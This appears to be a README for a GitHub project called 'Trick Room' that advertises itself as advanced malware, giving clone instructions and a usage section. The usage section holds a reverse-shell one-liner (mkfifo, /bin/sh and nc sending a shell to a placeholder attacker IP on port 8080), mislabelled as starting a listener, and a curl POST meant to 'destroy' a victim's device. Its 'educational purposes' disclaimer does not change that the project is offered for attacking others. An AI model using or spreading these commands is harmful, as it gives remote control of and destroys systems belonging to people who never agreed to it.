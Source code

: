 ## Trick Room
The Most Advanced Malware Ever Made!

## Creators

- [@LotusEmpire](https://www.github.com/lotusempire64) 





## Installation

```bash
git clone https://github.com/lotusempire64/Trick_Room 
cd Trick_Room  
```
## Warning/Disclaimor! 
Don't Run On Your Own Computer, Use Only For Educational Purposes And Don't Be Dumb

## Usage 
Step 1: Start a netcat listener: 
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIPHERE 8080 >/tmp/f
``` 
Step 2: Use post requests to controll target, it will send back the server IP 
Example Of Post Request To Destroy Victims Device: 
```bash 
curl VICTIMSERVERHERE -X POST -d DESTROY 
``` 
## This Is A Work In Progress 
If you have any features you want added, find any bugs, or would like to colaborate on this project, email me here: lotusempire6@gmail.com

